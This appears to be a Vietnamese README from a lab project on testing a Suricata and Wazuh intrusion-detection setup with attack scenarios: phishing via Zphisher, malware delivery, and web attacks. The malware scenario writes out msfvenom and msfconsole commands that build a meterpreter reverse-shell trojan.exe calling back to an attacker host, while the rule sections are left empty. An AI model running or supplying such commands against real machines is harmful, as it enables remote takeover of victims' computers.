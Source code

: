 Dưới đây là 1 số kịch bản tấn công để kiểm tra hệ thống giám sát phát hiện xâm nhập có hoạt động hiệu quả  
Các rule được triển khai cho các kịch bản:  
![Rule set](Image/Ruleset.png)  
  
## Kịch bản 1: tấn công Phising
Mục tiêu:  
- Thu thập trái phép thông tin xác thực (username và password) của người dùng.
- Mô phỏng tấn công xã hội nhằm đánh giá khả năng nhận diện các mối đe dọa của người dùng nội bộ.
- Ghi nhận các hành vi đáng ngờ và cảnh báo khi có truy cập đến các miền/phương thức tunneling thường dùng trong phishing.
  
Dùng công cụ Zphiser để tấn công vào máy nạn nhân  
Zphiser sẽ tạo trang web giả mạo để dụ nạn nhân điền thông tin quan trọng như username, password  
Khi nạn nhân điền xong thông tin thì sẽ được gửi qua máy nạn nhân  
Rule để cảnh báo:  

Giải thích rule:  

Phía suricata  
  
Phía Wazuh  
  
## Kịch bản 2: tấn công truyền mã độc
Mục tiêu:
- Tấn công vào người dùng khi truy cập khởi  động  
- Tạo một ứng dụng uy tín đánh lừa người dùng tải về
  
Tạo payload trojan.exe để lừa người dùng tải xuống:  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.2 LPORT=4444 -f exe > trojan.exe  
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp  
set LHOST 192.168.119.2 ( máy tấn công )  
set LPORT 4444  
exploit  

Mở port 80
  
Máy nạn nhân sẽ truy cập 192.168.119.2:4444/trojan.exe → tự động tải mã độc về 

Rule cảnh báo:  

Giải thích rule:  

Phía suricata  

Phía Wazuh
  
## Kịch bản 3: tấn công web
Mục tiêu:
- Truy cập trái phép vào thông tin nội bộ  
- Thực hiện các hành vi khai thác lỗ hổng bảo mật ứng dụng web
- Kiểm tra mức độ phòng thủ và phát hiện của hệ thống giám sát
  
### SQL injection

### XSS (Reflected, Restored)

### Brute Force
